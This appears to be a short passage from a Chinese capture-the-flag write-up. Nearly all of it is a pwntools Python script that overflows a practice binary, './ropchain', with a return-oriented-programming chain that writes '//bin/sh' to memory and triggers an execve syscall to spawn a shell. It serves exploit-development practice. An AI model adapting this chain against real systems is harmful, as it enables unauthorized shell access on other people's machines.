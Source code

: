 这个要做处理的就比较少, 只要把pack前加上struct就行

脚本为

##### Exploit

```python
from struct import pack
from pwn import*

p = lambda x : struct.pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 9f72ca947866add6ab0baafe740a536729f891f13847b44c4f3d7661c89a1be6
rebase_0 = lambda x : p(x + IMAGE_BASE_0)
o = process('./ropchain')

rop = 'a'*0x18
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += '//bin/sh'
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000d95b) # 0x000000000040d95b: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000067df9) # 0x0000000000467df9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x00000000000006a6) # 0x00000000004006a6: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010053) # 0x0000000000410053: pop rsi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000003992) # 0x0000000000403992: pop rdx; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x00000000000005af) # 0x00000000004005af: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000074a25) # 0x0000000000474a25: syscall; ret; 
#print(rop)
o.sendline(rop)
o.interactive()
```

![image-20220316214419033](自救指南.assets/image-20220316214419033.png)
